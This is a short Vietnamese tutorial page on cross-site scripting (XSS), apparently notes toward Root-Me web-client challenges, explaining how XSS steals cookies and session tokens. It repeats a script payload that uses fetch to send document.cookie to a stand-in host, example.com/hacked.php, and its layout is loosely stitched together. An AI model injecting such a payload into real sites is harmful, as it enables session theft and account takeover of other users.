 # The largest heading
## The second largest heading
###### The smallest heading
![image](https://user-images.githubusercontent.com/54978467/134615358-41820711-e2dc-4506-9f6a-d4537bd74352.png)

**1. Cross-site scripting XSS là gì?**
> Cross-site scripting (a.k.a XSS) là một lỗ hổng bảo mật web phổ biến và dễ bị tấn công nhất cho phép kẻ tấn công thực thi script trên Client.
Thông thường, các cuộc tấn công XSS được sử dụng để vượt qua truy cập và mạo danh người dùng.

Mục đích chính của cuộc tấn công này là ăn cắp dữ liệu nhận dạng của người dùng như:
```<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>```

cookies
session
token
các thông tin khác....
Trong hầu hết các trường hợp, cuộc tấn công này đang được sử dụng để ăn cắp cookie của người khác.

Như chúng ta biết, cookie giúp ta đăng nhập tự động.
(https://www.root-me.org/en/Challenges/Web-Client/)
This site was built using [GitHub Pages](https://www.root-me.org/en/Challenges/Web-Client).


Do đó khi cookie bị đánh cắp, ta có thể đăng nhập bằng các thông tin nhận dạng khác.

Và đây là một trong những lý do, tại sao cuộc tấn công này được coi là một trong những cuộc tấn công nguy hiểm nhất.

Tấn công XSS đang được thực hiện ở phía client.

Nó có thể được thực hiện với các ngôn ngữ lập trình phía client khác nhau.

Tuy nhiên, thường xuyên nhất cuộc tấn công này được thực hiện với Javascript và HTML.

2. XSS được thực hiện như thế nào?
Tấn công XSS là gửi và chèn script độc hại, những mã độc này được viết bằng các ngôn ngữ ở client như Javascript, HTML, CSS VBScript,... Tuy nhiên phổ biến nhất là Javascript và HTML. Có rất nhiều các thức để thực hiện cuộc tấn công này, phụ thuộc vào nhiều trường hợp khác nhau.

a. Nguyên nhân
[<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>]

<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>
